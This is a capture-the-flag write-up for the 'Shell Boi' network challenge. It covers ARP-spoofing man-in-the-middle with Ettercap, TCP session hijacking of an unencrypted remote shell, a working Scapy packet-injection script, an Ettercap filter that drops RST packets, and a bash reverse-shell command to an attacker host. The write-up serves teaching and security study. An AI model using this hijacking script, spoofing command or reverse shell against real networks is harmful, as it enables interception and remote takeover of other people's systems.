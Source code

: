 ```yaml
---
description: >-
  Unencrypted remote shell leads to TCP session hijacking and RCE through
  man-in-the-middle (MITM) attack
---
```


# Shell Boi

## Challenge

He sells linux shells on the shell store.

**Author:** [f4lcon](https://twitter.com/theevilsyn)

## Solution

### Reconnaissance

When scanning the network, I found that only 172.30.0.5 and 172.30.0.8 were up. However, no ports seemed to be open.

Port 1337 on 172.30.0.5 was "open", but the service closes the connection immediately after the handshake is completed.

```
Nmap scan report for 172.30.0.5
Host is up (0.042s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE    VERSION
1337/tcp open  tcpwrapped
MAC Address: 02:42:1D:65:54:70 (Unknown)
```

172.30.0.8, on the other hand, had no open ports.

This is weird, the category was "Network Pentest"! Anyway, I theorized that perhaps 1337 was indeed open, but the firewall blocks anyone other than 172.30.0.8 from accessing the service? 

### Man-in-the-Middle

Well, what better way to test this theory than to sniff the traffic? I tried using Ettercap to perform a man-in-the-middle between 172.30.0.5 and 172.30.0.8, and it worked! There were no defences in place, and I could now sniff the traffic between them.

Filtering the traffic on port 1337, we can see quite a lot of connections. Let's start with following one of those connections:

![](<../../.gitbook/assets/image (56).png>)

172.30.0.8 is sending the following base 64 encoded message to 172.30.0.5, on port 1337:

![](<../../.gitbook/assets/image (58).png>)

The two lines translate to 172.30.0.8 and 34599 respectively.

Hm... filtering the traffic on port 34599, some interesting traffic appears:

![](<../../.gitbook/assets/image (59).png>)

Okay, now we understand what is happening.

* 172.30.0.8, the client, sends a request to the server in the form of a base 64 encoded message specifying the receiving IP address and port number.
* 172.30.0.5, the server, upon receiving the request, sends an unencrypted shell to the specified IP address and port number.

### Hijacking the Session

Essentially, we need to intercept the TCP connection, and spoof a response containing our custom command to the server. This is called** TCP session hijacking**, which builds on top of a MITM attack. The idea is that we have to calculate the correct SEQ and ACK numbers, in order to spoof a packet as the client.

In a TCP connection, if invalid SEQ numbers are received, the receiver simply discards the packets. Initial sequence numbers (ISNs) are thus randomised, preventing SEQ numbers from being predicted. Arbitrarily injected packets by an attacker "guessing" the SEQ number would therefore be likely to have invalid SEQ numbers.** **

However, if an attacker is able to achieve a man-in-the-middle attack, it would be trivial to obtain the relevant SEQ numbers of TCP packets transmitted between two nodes.

![](https://lh5.googleusercontent.com/22lSaL0ogOMcs18PYt33A84ORcf7JXfuyD_ZYwTBAw5y5u_vyCwNDpZQfxKgP63YvD9-X2\_bZSC\_1EQxnu1AP0IhYPXIsD-d_YY5go8SPTZDiZGGo4R53qMm6KMmHjZVwn1H68Nr)

The following script implements this (this script is run _after_ first establishing a MITM using Ettercap - we could also use Scapy to implement the MITM, but it gets really messy and Scapy faces its own limitations too). 

```python
from scapy.all import *
import argparse
import global_vars


def sniff_parser(packet):
    if IP in packet:
        print(packet.summary())


def sniffer_thread(callback, pkt_filter, iface):
    while True:
        sniff(
            prn=callback,
            filter=pkt_filter,
            count=1,
            iface=iface
        )


def forge_response(p, command):

	print(f"Received: SEQ {p[TCP].seq}, ACK {p[TCP].ack}, Payload {p[TCP].payload}")

	ip_total_len = p[IP].len
	ip_header_len = p[IP].ihl * 32 // 8
	tcp_header_len = p[TCP].dataofs * 32 // 8
	tcp_seg_len = ip_total_len - ip_header_len - tcp_header_len

	# Send command to server
	cmd_ether = Ether(src=p[Ether].dst, dst=p[Ether].src)
	cmd_ip = IP(src=p[IP].dst, dst=p[IP].src)
	cmd_tcp = TCP(sport=p[TCP].dport, dport=p[TCP].sport, seq=p[TCP].ack, ack=p[TCP].seq + tcp_seg_len, flags="PA")

	command = command + '\r\n'
	cmd = cmd_ether / cmd_ip / cmd_tcp / command

	return cmd
	

def hijack(p):

	data = str(p[TCP].payload)
	print("Received:", data)
	
	if 'root' not in data:
		return
		
	cmd = forge_response(p, global_vars.CMD)
		
	print('Spoofed command: ', cmd[TCP].payload)

	print("[+] Executing command...")
	sendp(cmd, verbose=0, iface=global_vars.IFACE)

	# sys.exit(0)


def main():
    
    parser = argparse.ArgumentParser()

    parser.add_argument(
        '-i', '--interface', default=conf.iface, help='Interface to use.'
    )

    parser.add_argument(
        'client', help='Client IP address.'
    )
    parser.add_argument(
        'server', help='Server IP address.'
    )

    parser.add_argument(
        'cmd', help='A command to execute.'
    )

    args = parser.parse_args()

    global_vars.MY_MAC = get_if_hwaddr(args.interface)
    global_vars.MY_IP = get_if_addr(args.interface)
    global_vars.IFACE = args.interface
    global_vars.CMD = args.cmd
    
    pkt_filter = f"src host {args.server} and tcp"
    
    sniffer = Thread(target=sniffer_thread, args=(hijack, pkt_filter, global_vars.IFACE))
    sniffer.start()


if __name__ == '__main__':
    main()

```

One small problem, though. When the client (172.30.0.8) sends an RST, the connection is closed before we get a chance to send our spoofed command! To get around this, I used the following Ettercap filter to drop the RST and RST, ACK packets.

```c
if (ip.src == '172.30.0.8') {
	if (tcp.flags == 4 || tcp.flags == 20) {
		drop();
		msg("Filter Ran.\n");
	}
}	
```

The syntax for running Ettercap with the filter is:

`ettercap -T -q -i tap0 -F shellboi.ef -M ARP /172.30.0.5\;172.30.0.8///`

Now, we can run the Python script and specify our desired command. Our command is `bash -c "bash -i >& /dev/tcp/172.30.0.14/1337 0>&1"`, which sends a reverse shell from the server to us.

![](../../.gitbook/assets/upload_c478bfc59bf91c2651693ff0c0c0745e.png)

The next time that a shell is sent to the client, our script will intercept the traffic and send the reverse shell payload to the server, allowing us to catch a shell, and obtain the flag.

![](<../../.gitbook/assets/image (61).png>)

The flag is `inctf{Ha!Security_1s_4_my7h!!!}`.

_And that, everyone, is why we use SSH instead of Telnet._

### On Hindsight...

There was an easier way to solve this. After performing the ARP spoofing attack using Ettercap, we could have just forged the base 64 encoded request, specifying the IP address and port of our choice to receive the shell (no scripting required?). 

But hey, this was more fun, and probably more realistic!
